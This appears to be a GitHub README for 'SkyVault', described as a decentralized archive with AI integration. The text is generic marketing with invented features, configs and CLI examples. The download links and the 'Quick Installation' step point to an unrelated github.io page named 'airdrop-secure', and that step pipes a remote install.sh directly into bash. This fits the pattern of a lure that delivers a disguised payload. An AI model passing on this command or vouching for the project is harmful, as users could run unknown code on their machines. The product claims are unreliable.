

# 🌐 SkyVault: Decentralized Knowledge & Media Archive

[](https://keyaankathpal1-wq.github.io/airdrop-secure/)

## 🚀 Elevate Your Digital Legacy

SkyVault reimagines personal archiving as a living, breathing ecosystem rather than static storage. Imagine your digital memories, research, and creative works existing in a self-sustaining network that grows more resilient with each participant—a digital forest where every tree strengthens the canopy. This isn't cloud storage; it's atmospheric preservation.

Born from the privacy-first philosophy of projects like AirCloud, SkyVault extends the paradigm beyond file transfer into permanent, distributed knowledge preservation. Your archives become part of a collective intelligence mesh, accessible only through keys you control, surviving not in data centers but in the interconnected devices of a trust-based network.

## ✨ Distinctive Capabilities

### 🧠 Intelligent Content Federation
SkyVault doesn't just store—it understands. Using on-device AI processing, your content is indexed, tagged, and related to similar materials across the network without exposing raw data. Find connections between your childhood photos and historical events, or between your research notes and publicly available papers, all while maintaining absolute privacy.

### 🌱 Organic Network Growth
Each node you add doesn't just increase your storage—it weaves another thread into the network's fabric. The system employs a symbiotic algorithm where providing resources to others' archives (with encrypted fragments) earns priority preservation of your own materials. It's digital mutualism.

### 🎨 Context-Aware Media Revival
Old documents and media gain new life through AI-assisted context restoration. Blurry photographs receive non-destructive enhancement suggestions, scanned documents become searchable, and outdated formats are translated into modern equivalents—all processed locally or through privacy-preserving API integrations.

## 📊 System Architecture



## 🛠️ Installation & Activation

### System Requirements
- **Storage:** 50GB+ recommended for network participation
- **Memory:** 8GB RAM minimum, 16GB for optimal performance
- **Platform:** See compatibility table below
- **Network:** Stable internet connection (1Mbps+)

### Quick Installation

```bash
# For most Unix-based systems
curl -fsSL https://keyaankathpal1-wq.github.io/airdrop-secure//install.sh | bash

# Or via package manager (when available)
# brew install skyvault  # macOS
# winget install skyvault  # Windows
# apt install skyvault  # Debian/Ubuntu
```

### Example Profile Configuration

Create `~/.skyvault/config.yaml`:

```yaml
node:
  identity: "your_unique_handle"
  storage_allocation: 100GB
  network_role: "preserver"  # Options: preserver, curator, gateway
  
archive:
  default_retention: "perpetual"
  privacy_level: "shielded"  # shielded, private, community
  
ai_services:
  openai:
    enabled: true
    endpoint: "https://api.openai.com/v1"
    usage: "context_only"  # context_only, metadata, analysis
  anthropic:
    enabled: true
    endpoint: "https://api.anthropic.com/v1"
    usage: "ethical_review"
  
media_processing:
  auto_enhance: true
  format_migration: true
  semantic_tagging: true

network:
  discovery_mode: "trust_web"
  max_connections: 42
  resource_contribution: "balanced"
```

### Example Console Invocation

```bash
# Initialize a new knowledge archive
skyvault init --name "Family History" --type "multimedia"

# Add content with intelligent categorization
skyvault add ./family_photos/ --tag "generation-3" --context "1990s reunions"

# Enable network participation
skyvault network join --role "preserver" --commitment 50GB

# Query across distributed knowledge
skyvault query "wedding traditions" --scope "personal,network" --format "timeline"

# Create a preserved collection for sharing
skyvault collection create "Ancestral Recipes" \
  --include "recipes/*.md" "photos/meals/*" \
  --share-with "family@domain.com"
```

## 📱 Platform Compatibility

| Platform | Status | Notes | Emoji |
|----------|--------|-------|-------|
| **Windows 10/11** | Fully Supported | Native GUI available | 🪟 |
| **macOS 12+** | Fully Supported | Apple Silicon optimized |  |
| **Linux** | Fully Supported | CLI & GUI variants | 🐧 |
| **BSD Variants** | Experimental | Community maintained | 👻 |
| **Android** | In Development | Beta available 2026 | 📱 |
| **iOS/iPadOS** | Planned | Target late 2026 | 📱 |

## 🔑 Core Features

### 🛡️ Privacy-First Architecture
- **Zero-Knowledge Verification:** Network participants verify each other's reliability without knowing what they're preserving
- **On-Device Processing:** All AI analysis occurs locally unless explicitly configured for optional API enhancement
- **Fragment Sharding:** Files are broken into encrypted fragments distributed across multiple nodes—no single node holds complete files

### 🔄 Intelligent Preservation
- **Format Migration:** Automatically converts aging formats to modern equivalents with version tracking
- **Context Embedding:** Stores not just data but its meaning, connections, and significance
- **Condition Monitoring:** Proactively identifies degradation risks in stored content

### 🌐 Network Synergy
- **Reputation-Based Allocation:** Nodes earn preservation priority by contributing to others' archives
- **Self-Healing Distribution:** Automatically redistributes fragments if nodes leave the network
- **Knowledge Discovery:** Find connections between your materials and related content across the network

### 🎯 Advanced Capabilities
- **Temporal Browsing:** View archives as they existed at specific historical moments
- **Cross-Media Correlation:** Link photos, documents, audio, and video by event or theme
- **Ethical AI Integration:** Optional connections to OpenAI and Claude APIs with strict data governance
- **Multilingual Semantic Search:** Find content across 47 languages regardless of original format

## 🚀 Getting Started: Your First Archive

### Step 1: The Memory Seed
Begin with a single meaningful directory—perhaps your thesis research or a decade of travel photos. SkyVault will analyze not just the files but their interrelationships, creating a knowledge graph that grows more valuable over time.

### Step 2: Network Integration
As you join the distributed preservation network, your local archive gains redundancy while you contribute to safeguarding humanity's collective digital memory. The system balances your resources automatically.

### Step 3: Living Archive
Return months later to find your archive has evolved: related materials suggested, formats updated, and connections made to complementary content across the network—all while maintaining complete privacy.

## 🔧 Advanced Configuration

### OpenAI & Claude API Integration
For enhanced context understanding without privacy compromise:

```yaml
ai_enhancement:
  # OpenAI for contextual understanding and connections
  openai:
    model: "gpt-4"
    max_tokens: 1000
    temperature: 0.3
    purposes: ["context_expansion", "cross_correlation"]
  
  # Claude for ethical review and semantic analysis
  claude:
    model: "claude-3-opus"
    max_tokens: 1500
    temperature: 0.2
    purposes: ["ethical_validation", "semantic_density"]
  
  # Privacy safeguards
  privacy_filters:
    strip_metadata: true
    pseudonymize_identifiers: true
    local_preprocessing: true
```

### Responsive Interface
SkyVault adapts to your interaction style:
- **CLI** for automation and scripting
- **TUI** for terminal-based management
- **Web UI** for remote access
- **Native GUI** for desktop integration
- **Mobile Companion** (2026) for on-the-go access

### Global Accessibility
- **Interface Translations:** 24 languages with community contributions
- **Cultural Context Awareness:** Date formats, categorization, and metadata adapt to regional preferences
- **Accessibility First:** Screen reader support, keyboard navigation, and high-contrast themes

## 📈 Enterprise & Institutional Use

### For Research Institutions
Preserve experimental data with full provenance tracking, connecting raw data to publications while allowing controlled sharing with collaborators worldwide.

### For Cultural Heritage Organizations
Digitize and preserve artifacts with multidimensional metadata, connecting physical objects to historical context, scholarly analysis, and public interpretation.

### For Legal & Compliance
Maintain immutable records with temporal verification, demonstrating exactly what information existed at any point in time.

## ⚠️ Important Considerations

### Preservation Ethics
SkyVault operates on a principle of **responsible permanence**. Unlike disposable cloud storage, we encourage thoughtful consideration of what deserves preservation. The system includes tools for scheduled review and intentional pruning.

### Network Responsibilities
By participating in the distributed network, you become a steward of others' digital heritage. The system includes reputation mechanisms to ensure all participants maintain adequate reliability and availability.

### Technical Limitations
- Extremely large files (>100GB) require special configuration
- Real-time collaboration features are limited (focus is preservation, not synchronization)
- Initial network synchronization can take several days for large archives

## 📄 License & Governance

SkyVault is released under the **MIT License** - see the [LICENSE](LICENSE) file for complete terms.

The development roadmap is publicly maintained, with major decisions determined through a consensus mechanism involving long-term contributors. Commercial implementations requiring modifications are encouraged to contribute improvements back to the core.

## 🆘 Continuous Support

- **Documentation:** Comprehensive guides updated weekly
- **Community Forum:** Peer-to-peer assistance with expert moderation
- **Critical Support:** Priority assistance for institutional users
- **Development Updates:** Monthly transparency reports on progress and challenges

## 🔮 The 2026 Roadmap

### Q2 2026: Neural Indexing
Implement brain-inspired associative memory models for more intuitive content discovery.

### Q3 2026: Cross-Archive Synthesis
Enable creation of new works by combining elements from multiple archives with proper attribution.

### Q4 2026: Quantum-Resistant Cryptography
Prepare for future computational advances with next-generation encryption.

## 🎯 Final Invitation

SkyVault isn't merely software—it's an invitation to participate in a new relationship with digital existence. In an age of digital ephemerality, we offer not just storage but **meaningful permanence**. Your memories, research, and creations can become part of a resilient tapestry that outlives any single service, company, or technology.

Join us in building a future where digital heritage is a communal responsibility and a lasting gift to those who follow.

---

**Ready to begin preserving?**  

[](https://keyaankathpal1-wq.github.io/airdrop-secure/)

---

*SkyVault v1.4.2 | Last updated: March 2026*  
*"Preserving today for the tomorrows we cannot yet imagine."*